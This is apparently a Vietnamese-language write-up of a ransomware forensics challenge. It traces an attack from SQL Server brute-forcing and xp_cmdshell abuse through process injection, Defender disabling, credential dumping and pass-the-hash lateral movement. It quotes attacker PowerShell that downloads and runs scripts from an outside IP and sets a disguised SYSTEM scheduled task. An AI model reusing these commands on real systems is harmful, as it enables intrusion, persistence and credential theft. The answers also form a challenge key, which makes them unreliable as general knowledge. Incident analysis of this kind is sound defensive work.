

# BlueSky Ransomware

#### Scenario

A high-profile corporation that manages critical data and services across diverse industries has reported a significant security incident. Recently, their network has been impacted by a suspected ransomware attack. Key files have been encrypted, causing disruptions and raising concerns about potential data compromise. Early signs point to the involvement of a sophisticated threat actor. Your task is to analyze the evidence provided to uncover the attacker’s methods, assess the extent of the breach, and aid in containing the threat to restore the network’s integrity.

> *Q1: Knowing the source IP of the attack allows security teams to respond to potential threats quickly. Can you identify the source IP responsible for potential port scanning activity?*
> 



- mình thấy ip .84 đang port scan trên ip .81

`87.96.21.84`

- attacker đã scan thành công các port sau


- **445:** SMB
- **139:** NetBIOS
- **135:** Microsoft RPC
- **5357:** WS-Discovery
- **1433:** Microsoft SQL Server

> *Q2: During the investigation, it's essential to determine the account targeted by the attacker. Can you identify the targeted account username?*
> 


- trong bài này mình thấy có giao thức TDS dùng để truyền tải câu lệnh và phản hồi giữa máy client và database server.


- gói tin login chứa username và password để đăng nhập, gói SQL batch chứa dữ liệu các câu lệnh thực hiện trên database server.


`sa`

> *Q3: We need to determine if the attacker succeeded in gaining access. Can you provide the correct password discovered by the attacker?*
> 


`cyb3rd3f3nd3r$`

> *Q4: Attackers often change some settings to facilitate lateral movement within a network. What setting did the attacker enable to control the target host further and execute further commands?*
> 
- follow tcp stream


- mình thấy attacker có thực hiện câu lệnh
    
    ```jsx
    EXEC sp_configure 'show advanced options', 1; //bật tùy chọn cấu hình nâng cao
    RECONFIGURE; 
    EXEC sp_configure 'xp_cmdshell', 1; //bật chế độ thực thi lệnh lên windows
    RECONFIGURE;
    ```
    

`xp_cmdshell`

> *Q5: Process injection is often used by attackers to escalate privileges within a system. What process did the attacker inject the C2 into to gain administrative privileges?*
> 
- follow theo stream của lần đăng nhập tiếp theo của attacker thì mình thấy chúng echo lần lượt đoạn dữ liệu base64 vào \%TEMP%\SBjzh.b64, đây có thể là đoạn powershell bị encode b64


- mình kiểm tra event log và thấy event 400 ghi lại một egine powershell khởi động


- nhưng HostName ở đây lại là MSFConsole thay vì ConsoleHost, chứng tỏ phiên này được tạo ra bằng công cụ Metasploit Framework.
- và đáng chú ý là tiến trình tạo ra engine powershell này lại không phải là powershell.exe mà là winlogon.exe, đây có thể là tấn công inject vào tiến trình winlogon.exe. SQL server ban đầu chỉ chạy dưới quyền user bình thường, sau khi tiêm vào winlogon thì đã có được quyền admin.
- khi \%TEMP%\SBjzh.b64 được decode và thực thi thì nó đã tấn công process injection vào winlogon.exe

`winlogon.exe`

> *Q6: Following privilege escalation, the attacker attempted to download a file. Can you identify the URL of this file downloaded?*
> 


- trong file này là các lệnh powershell


- đoạn script này kiểm tra quyền bằng $priv có phải admin hay không
- tắt các windows defender
- nếu $priv là admin thì tải file http://87.96.21.84/del.ps1 vào C:\ProgramData\del.ps1, sau đó tạo schtasks chạy del.ps1 mỗi giờ tiếng một lần. Sau đó tải và thực thi http://87.96.21.84/ichigo-lite.ps1
- nếu $priv không phải admin thì tải del.ps1 vào C:\Users\del.ps1, cũng tạo schtasks chạy 3 tiếng một lần.

`http://87.96.21.84/checking.ps1`

> *Q7: Understanding which group Security Identifier (SID) the malicious script checks to verify the current user's privileges can provide insights into the attacker's intentions. Can you provide the specific Group SID that is being checked?*
> 


`S-1-5-32-544`  là SID của nhóm nhóm BUILTIN\Administrators mặc định trên windows.

> *Q8: Windows Defender plays a critical role in defending against cyber threats. If an attacker disables it, the system becomes more vulnerable to further attacks. What are the registry keys used by the attacker to disable Windows Defender functionalities? Provide them in the same order found.*
> 


`DisableAntiSpyware,DisableRoutinelyTakingAction,DisableRealtimeMonitoring,SubmitSamplesConsent,SpynetReporting`

> *Q9: Can you determine the URL of the second file downloaded by the attacker?*
> 
- như đã phân tích ở trên

`http://87.96.21.84/del.ps1`

> *Q10: Identifying malicious tasks and understanding how they were used for persistence helps in fortifying defenses against future attacks. What's the full name of the task created by the attacker to maintain persistence?*
> 

```jsx
Function CleanerEtc {
    $WebClient = New-Object System.Net.WebClient
    $WebClient.DownloadFile("http://87.96.21.84/del.ps1", "C:\ProgramData\del.ps1") | Out-Null
    C:\Windows\System32\schtasks.exe /f /tn "\Microsoft\Windows\MUI\LPupdate" /tr "C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1" /ru SYSTEM /sc HOURLY /mo 4 /create | Out-Null
    Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/ichigo-lite.ps1'))
}
```

> *Q11: Based on your analysis of the second malicious file, What is the MITRE ID of the main tactic the second file tries to accomplish?*
> 
- `TA0005`-Defense evasion

> *Q12: What's the invoked PowerShell script used by the attacker for dumping credentials?*
> 
- attacker thực thi http://87.96.21.84/ichigo-lite.ps1


- kiểm tra file này thì mình thấy nó có thực thi thêm Invoke-PowerDump.ps1


- đây là công cụ Posh-SecMod dùng để dump các hash của SAM từ registry

`Invoke-PowerDump.ps1`

> *Q13: Understanding which credentials have been compromised is essential for assessing the extent of the data breach. What's the name of the saved text file containing the dumped credentials?*
> 
> 
> 
> 
- quay lại kiểm tra file ichigo-lite.ps1 thì có 2 đoạn base64, đoạn trên vẫn là tải Invoke-PowerDump.ps1 và thực thi trực tiếp. Đoạn thứ 2 là chạy lệnh
    
    ```jsx
    Invoke-PowerDump | Out-File -FilePath "C:\ProgramData\hashes.txt"
    ```
    
- hàm Invoke-PowerDump được tạo trong file Invoke-PowerDump.ps1, sau đó nó xuất kết quả dump được ra `hashes.txt`
- đoạn script ichigo-lite.ps1 có nhiệm vụ dùng công cụ từ Invoke-PowerDump.ps1 để dump và đưa vào hashes.txt, sau đó nó trích xuất ra các username và passwordhashes. Sau đó lấy từng username và passwordhashes, cùng với đó là từng host đã scan được trong file extracted_hosts.txt để chạy lênh
    
    ```jsx
    Invoke-SMBExec -Target $targetHost -Username $username -Hash $password
    ```
    
- Invoke-SMBExec là công cụ để lateral movement, sau khi đăng nhập sang máy khác bằng cách ntlm hash, nó lạm dụng Service Control Manager để thực thi command đã cài trong công cụ.
- Cuối cùng nó tải file http://87.96.21.84/javaw.exe vào C:\ProgramData\javaw.exe

> *Q14: Knowing the hosts targeted during the attacker's reconnaissance phase, the security team can prioritize their remediation efforts on these specific hosts. What's the name of the text file containing the discovered hosts?*
> 
- như phân tích ở trên thì sau khi attacker scan được các host thì nó lưu vào `extracted_hosts.txt`

> *Q15: After hash dumping, the attacker attempted to deploy ransomware on the compromised host, spreading it to the rest of the network through previous lateral movement activities using SMB. You’re provided with the ransomware sample for further analysis. By performing behavioral analysis, what’s the name of the ransom note file?*
> 
- hash file ransomware được cung cấp và đưa lên virustotal

[https://www.virustotal.com/gui/file/3e035f2d7d30869ce53171ef5a0f761bfb9c14d94d9fe6da385e20b8d96dc2fb](https://www.virustotal.com/gui/file/3e035f2d7d30869ce53171ef5a0f761bfb9c14d94d9fe6da385e20b8d96dc2fb)


`# DECRYPT FILES BLUESKY #`

> *Q16: In some cases, decryption tools are available for specific ransomware families. Identifying the family name can lead to a potential decryption solution. What's the name of this ransomware family?*
> 

`BlueSky`